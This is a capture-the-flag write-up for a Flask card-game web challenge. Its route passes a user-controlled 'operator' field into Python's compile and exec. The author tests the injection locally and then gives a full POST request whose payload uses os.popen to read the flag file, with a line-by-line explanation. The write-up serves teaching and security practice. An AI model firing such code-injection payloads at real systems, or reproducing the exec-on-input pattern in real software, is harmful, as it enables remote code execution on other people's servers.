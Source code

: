 # Web Evaluation Check

{% file src="../../../.gitbook/assets/web_evaluation_deck.zip" %}
Challenge source code
{% endfile %}

## Application at-a-glance

Application is a card game that allows user to flip 8 cards.

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption><p>Default view</p></figcaption></figure>

When HP bar is depleted game is ended.

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption><p>End screen</p></figcaption></figure>

## Source Code Review

Most interesting file is `routes.py` as this file store all logic used by application.

{% code lineNumbers="true" %}
```python
from flask import Blueprint, render_template, request
from application.util import response

web = Blueprint('web', __name__)
api = Blueprint('api', __name__)

@web.route('/')
def index():
    return render_template('index.html')

@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result) #exec function allows to execute python code
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```
{% endcode %}

First interesting thing is that this application uses `compile` and `exec` function.

Let's analyze the given source code.

{% code lineNumbers="true" %}
```python
    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power')
    operator = data.get('operator')
```
{% endcode %}

This piece of code parse `POST` request body and get `current_health`, `attack_power` and `operator` parameters.



Next step is checking if all three variables are set, this ensures that all three parameters are passed in request.

{% code lineNumbers="true" %}
```python
if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400
```
{% endcode %}

This part is most interesting because of use `exec` function.

{% code lineNumbers="true" %}
```python
 result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
        exec(code, result) #exec function allows to execute python code
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500

```
{% endcode %}

But before `exec` call, user input is directly passed to `compile` function and then to `exec`, `current_health` and `attack_power` are casted to int. `Result` variable is returned to the user in reponse

## Vulnerability

As there is no sanitization of user input there is possible RCE (Remote Code Execution) via `exec` function!

## Testing

As I'm not familliar with `compile()/exec()` function combo I copied relevant part of code to new python script for testing.

{% code lineNumbers="true" %}
```python
current_health = '12'
operator = "+"
attack_power = '100'
result = {}

try:
    code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
    exec(code, result)
    print(result.get('result'))
except:
    print('Something Went Wrong!')

```
{% endcode %}

After executing this script number `112` is printed.

`exec` function is capable of executing python code. User controles all three parameters but only `operator` is passed directly to `compile` rest parameters are converted to `int`

One modyfication for testing script is required, because in this state when something is wrong printing `Something Went Wrong!`

To get full traceback `try/except` block can be removed.

So the first try was to set `operator` variable to something easy like `print(1)` and if everything goes well it should print `1`

{% code lineNumbers="true" %}
```python
current_health = '12'
operator = "print(1)"
attack_power = '100'
result = {}
code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
exec(code, result)
print(result.get('result'))
```
{% endcode %}

Unfortunately after executing, script returns `SyntaxError: Invalid Syntax` and result is equal to `result = 12 print(1) 100` so 12 is `current_health` and 100 is `attack_power`&#x20;

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption><p>First try - invalid syntax</p></figcaption></figure>

Python is capable of running inline code when next instruction are separated with semicolon `;`&#x20;

{% code lineNumbers="true" fullWidth="true" %}
```python
current_health = '12'
operator = ";print(1);"
attack_power = '100'
result = {}
code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec')
exec(code, result)
print(result.get('result'))

```
{% endcode %}

Executing this yeild great success! Script printing additianal `1` in terminal window.

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption><p>RCE!</p></figcaption></figure>

## Exploitation

With proper code execution now we can read the flag.

{% code lineNumbers="true" %}
```http
POST /api/get_health HTTP/1.1
Host: 127.0.0.1:1337
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:1337/
Content-Type: application/json
Origin: http://127.0.0.1:1337
Content-Length: 114
Connection: close
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{
	"current_health":"43",
	"attack_power":"33",
	"operator":";result = __import__('os').popen('cat /flag.txt').read();"
} 

```
{% endcode %}

After sending this malicious request to application, server returns flag.

<figure><img src="../../../.gitbook/assets/image (4).png" alt=""><figcaption><p>Flag</p></figcaption></figure>

### Payload explanation

```python
"operator":";result = __import__('os').popen('cat /flag.txt').read();"
```

* semicolons are here for valid python code execution - without `;` signs interpreter throws `invalid syntax` error
* `result =` this overwrites variable that is returned in response to the user
* `__import__` is function called by regular import statement this allows to import modules directly so \
  `__import__('os')` means the same as `import os` but can be done inline and can call functions directly by referencing them as `objects`
* `popen('cat /flag.txt`) this function spawns shell process and executes command `cat /flag.txt`
* `read()` reads output of a process from popen&#x20;
